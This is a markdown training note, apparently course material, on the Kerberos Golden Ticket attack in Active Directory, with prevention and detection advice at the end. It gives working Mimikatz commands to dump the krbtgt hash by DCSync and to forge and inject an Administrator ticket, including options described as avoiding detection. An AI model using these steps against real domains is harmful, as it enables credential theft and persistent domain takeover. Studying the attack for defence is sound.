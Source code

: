 ## Description

The Kerberos Golden Ticket is an attack in which threat agents can create or generate tickets for any user in the Domain, effectively acting as a Domain Controller.

When a Domain is created, the unique user account `krbtgt` is created by default; `krbtgt` is a disabled account that cannot be deleted, renamed, or enabled. The Domain Controller's KDC service will use the password of `krbtgt` to derive a key with which it signs all Kerberos tickets. This password's hash is the most trusted object in the entire Domain because it guarantees that the Domain issued Kerberos tickets.

Any user possessing the password's hash of `krbtgt` can create valid Kerberos TGTs. Because `krbtgt` signs them, forged TGTs are considered valid tickets within an environment. Previously, it was even possible to create TGTs for inexistent users and assign any privileges to their accounts. The Golden Ticket attack allows us to escalate rights from any child domain to the parent in the same forest, enabling persistence and control over the domain.

This attack provides elevated persistence in the domain and occurs after an adversary has gained Domain Admin (or similar) privileges.

## Attack

To perform the Golden Ticket attack, use Mimikatz with the following arguments:

- `/domain`: The domain's name.
- `/sid`: The domain's SID value.
- `/rc4`: The password's hash of `krbtgt`.
- `/user`: The username for which Mimikatz will issue the ticket.
- `/id`: Relative ID (last part of SID) for the user for whom Mimikatz will issue the ticket.

Additionally, advanced threat agents specify values for the `/renewmax` and `/endin` arguments to avoid detection:

- `/renewmax`: The maximum number of days the ticket can be renewed.
- `/endin`: End-of-life for the ticket.

### Step 1: Obtain krbtgt Hash and SID

Using DCSync with Rocky's account to obtain the hash:
```
mimikatz # lsadump::dcsync /domain:eagle.local /user:krbtgt

SAM Username: krbtgt
Hash NTLM: db0d0630064747072a7da3f7c3b4069e
SID: S-1-5-21-1518138621-4282902758-752445584
```

### Step 2: Create Golden Ticket

Run Mimikatz with the `kerberos::golden` command:

```
mimikatz # kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt
```

Verifying with `klist`:

```
C:\Mimikatz>klist
```

## Prevention

Preventing forged tickets is challenging, but some preventive steps include:

1. Block privileged users from authenticating to any device.
2. Periodically reset the `krbtgt` password.
3. Enforce `SIDHistory` filtering to prevent cross-domain escalation.

## Detection

Correlate users' behavior to detect abuse of forged tickets, especially looking for:

- Events with ID 4624 and 4625 for suspicious logons.
- TGS requests without a prior TGT, indicating a potential Golden Ticket.
- If `SIDHistory` filtering is enabled, monitor for event ID 4675 for cross-domain escalation.

### Note

If an AD forest is compromised, reset all users' passwords, revoke certificates, and reset `krbtgt`'s password twice to clear any old passwords, with each reset at least 10 hours apart.
```

[Download the Golden_Ticket.md file](sandbox:/mnt/data/Golden_Ticket.md)